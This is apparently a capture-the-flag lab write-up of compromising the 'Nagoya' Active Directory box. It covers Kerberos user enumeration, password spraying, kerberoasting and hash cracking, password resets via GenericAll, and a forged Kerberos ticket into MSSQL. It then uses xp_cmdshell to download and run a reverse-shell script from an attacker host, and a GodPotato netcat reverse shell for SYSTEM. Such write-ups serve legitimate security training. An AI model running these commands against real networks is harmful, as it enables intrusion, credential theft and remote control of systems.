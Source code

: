 #Pwned! 
```IP
192.168.150.21
```

# Enumeration
## SMB
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211114236.png?raw=true)
## Kerberos
```
./kerbrute userenum --dc 192.168.150.21 -d nagoya-industries.com /usr/share/SecLists-master/Usernames/cirt-default-usernames.txt
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211114736.png?raw=true)
I created a users.txt file with the names contained in http 80 and substituted the space between name and surname for a dot, and then confirmed these usernames with kerbrute
```
./kerbrute userenum --dc 192.168.150.21 -d nagoya-industries.com users.txt
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211120839.png?raw=true)
## LDAP
needs authentication
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211114934.png?raw=true)
## HTTP 80
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211114001.png?raw=true)

# Exploitation
create a list of seasons, months etc
apply a ruleset to it
password is Summer2023
Confirm password
```
nxc smb 192.168.150.21 -u 'fiona.clark' -p 'Summer2023'
```
```
impacket-GetUserSPNs -request -dc-ip 192.168.150.21 nagoya-industries.com/fiona.clark
```
However, the tool targeted kerberoast retrieve more hashes:
```
python3 targetedKerberoast.py -d nagoya-industries.com -u fiona.clark -p Summer2023 -v -o ../../files/targetedkerberoast.hash
```
lets crack some hashes
```
sudo hashcat -m 13100 files/targetedkerberoast.hash /usr/share/wordlists/rockyou.txt --force
```
Credentials obtained:
```
svc_mssql:Service1
```

With this credentials we can also access to smb shares which we will list with
```
smbclient //192.168.150.21/NETLOGON -U nagoya-industries.com/svc_mssql --password='Service1' -c 'recurse;ls'
```
we see some odd .exe
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211155135.png?raw=true)
```
cat ResetPassword.exe
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211155733.png?raw=true)
 it works!
 ![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211160620.png?raw=true)
 it doesnt pwn anything, so we will take a look with bloodhound:
```
bloodhound-python -d nagoya-industries.com -c all -u 'fiona.clark' -p 'Summer2023' -ns 192.168.150.21 --zip
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211163007.png?raw=true)
we have generic all over bethan so lets change his password


```
net rpc password "bethan.webster" "Password123" -U "nagoya-industries.com"/"fiona.clark"%"Summer2023" -S "nagoya-industries.com"
```

and now we can change christopher.lewis password with bethan.webster
```
net rpc password "christopher.lewis" "Password123" -U "nagoya-industries.com"/"bethan.webster"%"Password123" -S "nagoya-industries.com"
```

and now we have access
```
evil-winrm -i 192.168.150.21 -u christopher.lewis -p 'Password123'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211163428.png?raw=true)


# PrivEsc

## Manual

## Automated

### Peass
mssql is open locally
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212115613.png?raw=true)

psexec doesnt work
```
python /usr/share/doc/python3-impacket/examples/psexec.py nagoya-industries.com/Administrator@192.168.249.21 -k -no-pass -debug
```
we will port forward a golden ticket attack on golden ticket
```
sudo ip route add 240.0.0.1/32 dev ligolo
```
We will then create our NTLM hash from the password we already had: Service1
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212121256.png?raw=true)
Then we will create a golden ticket using that hash:
```
python3 ticketer.py -nthash E3A0168BC21CFB88B95C954A5B18F57C -domain-sid S-1-5-21-1969309164-1513403977-1686805993 -domain nagoya-industries.com -dc-ip 192.168.249.21 Administrator -spn MSSQL/nagoya.nagoya-industries.com
```
```
export KRB5CCNAME=/home/kali/Documents/offsec/PG/Nagoya/exploits/Administrator.ccache
```
```
impacket-mssqlclient -k -debug -target-ip 240.0.0.1 nagoya.nagoya-industries.com
```
Get execution privileges:
```
EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```
execute reverse shell:
```
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://192.168.45.189:8000/rev.ps1") | powershell -noprofile'
```
we have impersonate privilege
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212140242.png?raw=true)
abuse it with a reverse shell and godpotato:
```
.\GodPotato-NET2.exe -cmd "\temp\nc.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.189 1234"
```
we are NT Authority System

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212140044.png?raw=true)

### Mimikatz

# Lateral Movement

